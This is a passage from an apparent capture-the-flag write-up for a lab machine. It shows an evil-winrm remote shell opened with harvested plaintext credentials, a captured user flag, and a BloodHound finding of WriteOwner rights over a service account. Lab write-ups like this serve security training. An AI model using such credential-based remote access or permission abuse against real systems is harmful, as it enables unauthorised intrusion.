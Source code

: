 He is member of Remote Management Users so we can get winrm shell here.

```bash
➜  escapetwo evil-winrm -i 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> dir

    Directory: C:\Users\ryan\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/29/2025   9:01 PM             34 user.txt

*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
28a00965c130e8ae4465585ecc39cd08
```

Lets check bloodhound datas here.

## WriteOwner

![alt text](../assets/images/escapetwo13.png)
We have WriteOwner. on ca_svc. We can also check with [PowerView](https://github.com/aniqfakhrul/powerview.py) btw
